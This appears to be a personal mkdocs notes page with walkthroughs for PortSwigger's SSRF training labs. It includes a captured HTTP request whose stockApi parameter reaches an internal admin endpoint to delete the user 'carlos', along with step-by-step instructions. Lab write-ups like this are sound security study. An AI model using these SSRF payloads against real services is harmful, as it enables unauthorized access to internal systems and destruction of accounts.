

repository: amandaguglieri/hackinglife · page: burpsuite/burpsuite-ssrf/index.html · generator: mkdocs

---
title: BurpSuite Labs - Server Side Request Forgery
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - burpsuite
  - ssrf
---
# BurpSuite Labs - Server Side Request Forgery

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#payloads-with-localhost

## Basic SSRF against the local server

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

### Solution

```
POST /product/stock HTTP/2
Host: 0a1600f6034ecb0581760c6200e30093.web-security-academy.net
Cookie: session=nQDGMiUWrUCVsa4ZXP4RoToYgd4biWt5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1600f6034ecb0581760c6200e30093.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: https://0a1600f6034ecb0581760c6200e30093.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Flocalhost%2Fadmin%2Fdelete?username=carlos
```

![ssrf 1](../img/ssrf_01.png)


1. Browse to `/admin` and observe that you can't directly access the admin page.
2. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
3. Change the URL in the `stockApi` parameter to `http://localhost/admin`. This should display the administration interface.
4. Read the HTML to identify the URL to delete the target user, which is:
    
    `http://localhost/admin/delete?username=carlos`
    
1. Submit this URL in the `stockApi` parameter, to deliver the SSRF attack.


## Basic SSRF against another back-end system

### Enunciation

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.
